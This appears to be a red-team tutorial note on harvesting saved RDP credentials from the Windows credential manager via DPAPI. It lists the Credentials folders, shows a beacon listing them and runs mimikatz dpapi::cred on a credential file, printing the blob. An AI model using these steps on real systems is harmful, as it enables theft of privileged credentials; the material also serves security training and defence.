 ## # `DPAPI` -

In certain scenarios like RDP jumpstations a user might find it useful to save RDP credentials locally in Windows to prevent having to retype passwords. A common scenario is a regular user with a separate admin privileged account that is used for RDP-ing into other boxes. The passwords are then stored in the Windows credential manager.

> The .NET Framework provides access to the data protection API (DPAPI), which allows you to encrypt data using information from the current user account or computer. When you use the DPAPI, you alleviate the difficult problem of explicitly generating and storing a cryptographic key

Credentials for the manager are usually stored in files in either of the following two directories. Use `dir /a` to check their contents.The **credentials files protected by the master password** could be located in:

- <mark style="background: #3D7EFFA6;">C:\Users\username\AppData\Roaming\Microsoft\Credentials</mark>

- <mark style="background: #FFB86CA6;">C:\Users\username\AppData\Local\Microsoft\Credentials</mark>

The files are usually stored as 32 character all caps alphanumerical strings, so something like : 0DCF46D87F2DCE439DC47AA5F9267462

```powershell
Get-ChildItem
C:\Users\napster\AppData\Local\Microsoft\Credentials\ -Force
[*] Tasked beacon to run: Get-ChildItem
C:\Users\naspter\AppData\Local\Microsoft\Credentials\ -Force (unmanaged)
[+] host called home, sent: 133705 bytes
[+] received output:
Directory: C:\Users\napster\AppData\Local\Microsoft\Credentials
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a-hs- 21/10/2018 15:02 436
936A68B5AC87C545C4A22D1AF264C8E9
```

Once you have the file name and path for the credential file, open up mimikatz and do -

```powershell
mimikatz dpapi::cred /in:C:\Users\napster\AppData\Local\Microsoft\Credentials\936A68B5AC87C545C4A22D1AF264C8E9
```

This will respond with :

```powershell
**BLOB**
dwVersion : 00000001 - 1
guidProvider : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
dwMasterKeyVersion : 00000001 - 1
guidMasterKey : {7dc6a492-36e2-4c2d-be66-ba29d263dda2}
dwFlags : 20000000 - 536870912 (system ; )
dwDescriptionLen : 00000030 - 48
szDescription : Local Credential Data
algCrypt : 00006603 - 26115 (CALG_3DES)
dwAlgCryptLen : 000000c0 - 192
dwSaltLen : 00000010 - 16
pbSalt : 03a0fca29ef842f222709ac718f3e095
dwHmacKeyLen : 00000000 - 0
pbHmackKey :
algHash : 00008004 - 32772 (CALG_SHA1)
dwAlgHashLen : 000000a0 - 160
dwHmac2KeyLen : 00000010 - 16
pbHmack2Key : 950f73797104e8b1ca2a05c60cc25baa
dwDataLen : 000000f0 - 240
pbData :
7ff8d2b58c7650dfd160866b282d4df190d1304c02c80cb00c285772969b757361191279d1a02228
```